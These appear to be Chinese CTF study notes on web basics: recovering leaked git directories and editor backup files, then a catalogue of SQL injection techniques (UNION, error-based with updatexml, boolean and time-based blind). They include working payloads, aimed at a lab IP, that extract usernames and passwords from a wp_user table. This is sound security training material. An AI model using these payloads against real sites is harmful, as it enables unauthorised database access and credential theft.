


# 第1章 Web入门

## 1.1 信息搜集

### 1.1.1 git目录泄露

网站的git目录不小心上传了导致源码泄露，需要借助[scrabble](https://github.com/denny0223/scrabble)工具抓取

用法：./scrabble http://example.com

（1）回溯

有时候flag可能不在当前的版本，则需要回溯

1. 先用`git log-stat`查看每个commit修改了哪个文件
2. 再用`git diff HEAD commit-id`比较当前版本和想查看的commit之间的变化

（2）分支

这部分较难，需要手动恢复分支

1. 使用`git reflog`可以查看一些checkout的记录，这里假设有个secret分支未被下载
2. 手动下载`wget http://127.0.0.1:8000/.git/refs/heads/secret`到`.git/refs/heads/secret`中
3. 修改GitHacker.py的源码，注释掉main()，然后复用fixmissing函数

### 1.1.2 敏感备份文件泄露

（1）gpedit

这个编辑器修改保存后会在当前目录下生成一个后缀为“~”的文件，直接访问即可

（2）vim

因意外退出时会在当前目录下生成一个备份文件，格式为.文件名.swp

恢复方式为先按文件名新建一个空白文件，然后使用`vim -r 文件名`恢复

（3）常规文件

* robots.txt
* readme.md
* www.domain.zip/rar/tar.gz —— 网站源码备份

## 1.2 SQL注入

### 1.2.1 数字型注入和UNION注入

网站通常通过将SQL语句和GET方法的http查询参数进行字符串拼接，例如通过?id=1查询id为1的文章。因此可以将我们编写的SQL语句拼接，进而造成数据库泄露。

通过将id改为-1或者一个非常大的数，将当前查询的文章表的结果全都清除掉，然后用UNION关键字（联合查询）拼接查询用户表中的管理员账号和密码。

可以通过`LIMIT 1,1`限制查询的结果，即跳过前面1条，然后读取1条。

`group_concat()`可以将多行记录合并显示在一个字段的一条记录里

获取表名的方式：`http://192.168.20.133/sql1.php？id=-1 union select 1，group_concat（table_name）from information_schema.tables where table_schema=database()`

获取字段名的方式：`http://192.168.20.133/sql1.php？id=-1 union select 1，group_concat（column_name）from information_schema.columns where table_name='wp_user'`

下面是访问`http://192.168.20.133/sql1.php？id=-1 union select user，pwd from wp_user`的结果

:::tip
数字型注入的关键在于找到输入的参数点，然后通过加、减、乘除等运算，判断出输入参数附近没有引号包裹，再通过一些通用的攻击手段，获取数据库的敏感信息。
:::

### 1.2.2 字符型注入与布尔盲注

将$_GET['id']用单引号或者双引号包裹起来，就成了字符型注入。这时3-2=1的运算不能成功。输入1aaa，将出现id=1的结果。这是因为id为int型，类型不同发生了强制转换。

自行闭合前后的引号，或者闭合前面的引号后面的引号用%23（＃）注释掉即可实现注入。

例如：`http://192.168.20.133/sql2.php？id=2%27 and 1%23`

在前面`id='1' and '1'`时能够正常回显页面，这是因为1自动转换为了true。可以利用and后面的语句是否为true以及页面能否正常回显来判读数据是否正确。

实际操作中需要结合`substring()`、`mid()`、`substr()`来使用。

例如判断用户名和密码的拼接字符串的第一个字符是否为a：`http://192.168.20.133/sql2.php？id=1'and（select mid（（select concat（user，0x7e，pwd）from wp_user），1，1））='a'%23`

除此之外利用利用执行时间判断是否为SQL攻击的结果称为时间盲注

### 1.2.3 报错注入

有时候网站会显示SQL查询的报错信息。

可以利用`updatexml()`语句来回显，第一个参数填1，第二个参数正确为xpath路径如果不是合法的路径则会回显，第三个参数填1。

例子：`http://192.168.20.133/sql3.php？id=1'or updatexml（1，concat（0x7e，（select pwd from wp_user）），1）%23`

### 1.2.4 SELECT语句注入点

SELECT语法如下：

（1）注入点在select_expr

可以利用时间盲注判断并获取，也可以使用AS别名的方式直接回显。

例子

SQL：`"SELECT ${_GET['id'],content} FROM wp_news"`

查询参数：`?id=(select pwd from wp_user) as title`

（2）注入点在table_references

依然可以使用AS别名的方式

例子

SQL: `"SELECT title,content FROM ${_GET['table_name']}"`

查询参数：`?table_name=(select pwd as title from wp_user)`

（3）注入点在WHERE或HAVING后

例子

SQL: "SELECT title FROM wp_news WHERE id=${_GET['id']}"

根据情况判断是否有单引号、双引号、括号，再用`UNICON SELECT`查询

查询参数：`?id=-1 union select user，pwd from wp_user`

（4）注入点在GROUP BY或ORDER BY后

在本地MySQL中进行尝试，看之后能加什么

例子

SQL：`"SELECT title FROM wp_news GROUP BY ${_GET['title']}"`

查询参数：`title=id desc, (if(1，sleep (1)，1))`

（5）注入点在LIMIT之后

整个SQL没有ORDER BY的情况下，可以直接使用UNION注入

如果MySQL<5.6，那么可以尝试通过PROCEDURE尝试注入

### 1.2.5 SQL注入总结

注入技巧的使用优先级是：UNION注入>报错注入>布尔盲注>时间盲注

UNION注入：

注意需要匹配的列数

爆出当前数据库中所有的表：

`id=999' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()#`

爆出某个表的所有字段：

`id=999' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='wp_user'`

报错注入：

某些情况下会回显报错信息

`id=999' or updatexml(1,concat(0x7e,(select 1)),1)`

布尔盲注：

某些情况下页面不直接回显查询结果，但是可以根据页面显示与否判断是否存在注入

这条语句有回显，因为1即真：

`id=1' and 1`

这条语句没有回显，说明后面的条件为假

`id=1' and (select ascii((select mid((select database()),1,1))))<112`

一般用ascii配合二分法

时间盲注：

某些情况下注入成功与否页面显示效果都一样，这时可以通过延长查询时间来判断是否注入成功

`id=99999' or if(ascii(mid(database(),1,1))=115,sleep(1),0)#`

一些函数的参数：

updatexml(1,path,1)

mid(str,1,1)：从第一个字符开始截取1个

ascii(str)：返回str第一个字符的ascii码

if(condition,true_result,false_result)
